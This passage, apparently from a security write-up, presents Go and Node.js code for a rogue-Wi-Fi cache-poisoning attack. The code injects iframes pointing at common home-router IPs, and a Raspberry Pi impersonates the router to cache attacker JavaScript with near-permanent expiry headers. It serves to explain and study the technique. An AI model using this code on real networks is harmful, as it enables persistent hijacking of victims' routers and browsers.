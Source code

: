 ```
    	payload = payload + "var ifrm = document.createElement('iframe');\nifrm.setAttribute('src', 'http://"+routers[i]+"');ifrm.style.width = '640px';ifrm.style.height = '480px';\ndocument.body.appendChild(ifrm);\n";
    }
    payload = payload + "});";
    
    res.Body = body + payload;
  }
}
```

One thing is worth noting from the code above, the JavaScript payload tries to load one `iframe` for every IP in the array `routers`. This is because the IP of the home router might have been configured differently. This means that the Raspberry has to answer to different IPs on different subnets. To do so, I simply add more IPs to the wireless interface of the Raspberry. In this way, whenever the code that loads the `iframe` is executed, a request is performed towards common routers' IP addresses and the wireless interface of the Raspberry can pretend to be the router, answer to those requests and cache whatever I want.

Finally, I need a web server on the Raspberry that listens on the wireless interface and caches the JavaScript code that attacks the router. I did some test with Nginx first, to make sure the idea was working, but finally I opted for Node.JS, mainly because I still hadn't tried it's HTTP server (I know).

```
var http = require("http");
var routers = ["192.168.0.1/","192.168.1.1/","192.168.1.90/"]
var fs = require('fs');
// load the index web page
var index = fs.readFileSync("./www/index.html");
// load the JavaScript file, which might be more than one 
// when support for other router is implemented
var jsob = fs.readdirSync('./www/js');
var repobj = {}

for (var i in jsob){
	// placing a / at the beginning is a bit of a lazy move
	repobj["/"+jsob[i]] = fs.readFileSync('./www/js/' + jsob[i]);
}

var server = http.createServer(function(request, response) {
	var url = request.headers.host + request.url;
	console.log('Request: ' + url);
	console.log("REQUEST URL" + request.url);
	console.log(request.headers);

	var headers = {
		"Content-Type": "text/html",
		"Server": "dribble",
		"Cache-Control": "public, max-age=99936000",
		"Expires": "Wed, 2 Nov 2050 10:00:00 GMT",
		"Last-Modified": "Wed, 2 Nov 1988 10:00:00 GMT",
		"Access-Control-Allow-Origin": "*"
	};

	// Cache the index page
	if (routers.includes(url))
	{
		console.log("cache until the end of time");
		response.writeHead(200, headers);
		response.write(index);
		response.end();
		return;
	}
```